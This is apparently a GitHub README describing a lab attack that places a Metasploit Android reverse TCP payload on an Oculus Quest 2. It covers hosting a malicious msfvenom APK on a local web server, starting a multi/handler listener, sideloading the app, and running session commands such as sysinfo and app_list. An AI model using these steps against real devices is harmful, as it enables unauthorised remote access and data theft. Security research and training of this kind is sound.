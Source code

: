 # Kali - Android Reverse TCP Handler Exploit on Oculus Quest2
### Oculus Quest 2 &amp; Kali Linux Exploit
![This is an image](https://raw.githubusercontent.com/georgebluff/Kali/main/05Jb4rRa4id6UYdWX5xlexa.fit_lim.size_1050x578.v1569508060.jpg)


Prerequisite Setup:
Oculus Quest 2 Developer Mode Enabled

Steps:
Configure WebServer from Kali <br/>
sudo python3 -m http.server --bind 127.0.0.1 9000 <br/>
![This is an image](https://raw.githubusercontent.com/georgebluff/Kali/main/apache%20webserver.png)

Configure localtunnel for browser redirect (optional) <br/>
![This is an image](https://raw.githubusercontent.com/georgebluff/Kali/main/localtunnel.png)

Confirm access to webserver on custom port
Create msfvenom malicious android .apk & put on desktop<br/>
![This is an image](https://raw.githubusercontent.com/georgebluff/Kali/main/msfvenom.png)

Launch msfconsole and use exploit/multi/handler for android reverse_tcp payload & 
set LHOST<br/>
show options<br/>
exploit<br/>
![This is an image](https://raw.githubusercontent.com/georgebluff/Kali/main/TCP%20handler.png)

Download & Install androidApp.apk from WebServer<br/>
![This is an image](https://raw.githubusercontent.com/georgebluff/Kali/main/oculus%20browser.png)

Run MainActivity com.metasploit.stage<br/>
![This is an image](https://raw.githubusercontent.com/georgebluff/Kali/main/unsupported%20apps.png)

Sysinfo<br/>
![This is an image](https://raw.githubusercontent.com/georgebluff/Kali/main/sysinfo.png)

help command shows all the options. app_list shows all the installed applications:<br/>
![This is an image](https://raw.githubusercontent.com/georgebluff/Kali/main/sysinfo.png) <br/>
Here is a full list of everything installed <br/>
[a link](https://github.com/georgebluff/Kali/blob/main/app_list_full.txt)


Not working:

- Get root permissions to device
- Streaming oculus screen to attacker PC remotely
- Force enable/record guardan boundares
- Enable/record microphone
- Wireshark analysis on Oculus for Facebook Identity Auth
  
Links:<br/>
  Access Android with Metasploit Kali (Cybersecurity) - https://www.youtube.com/watch?v=YRm-St0bJhU <br/>
  How To Set Up Port Forwarding in Kali Linux Without Router Access | Kali Linux 2021.2 - https://www.youtube.com/watch?v=juu5PM0_NUI <br/>
  Kali http server setup - https://linuxconfig.org/kali-http-server-setup <br/>
  
Notes: This infomation is for training and security research purposes only.

